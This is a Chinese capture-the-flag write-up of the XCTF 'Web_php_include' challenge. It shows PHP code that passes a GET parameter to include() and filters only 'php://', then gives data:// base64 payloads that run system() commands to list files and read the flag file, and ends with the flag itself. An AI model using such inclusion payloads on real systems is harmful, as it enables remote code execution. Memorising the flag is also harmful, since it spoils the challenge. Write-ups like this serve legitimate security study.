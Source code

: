 # T4 Web_php_include

> 题目：攻防世界 Web_php_include

__0x00 审题__

打开题目如下：

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

__0x01 解题__

> 因为最近刚看了PHP伪协议，所以打算用它来做

* 代码中有一块过滤了php://，我们可以用其他协议，例如：data：//

> 小介绍（data：//）：php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

1. 引用<?php system("dir")?>，构造payload： ?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=  （base64编码之前有过工具链接）

2. 发现文件“fl4gisisish3r3.php”，采用<?php system("cat fl4gisisish3r3.php")?>,构造payload：data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==

__0x02 答案__

得到flag：ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}
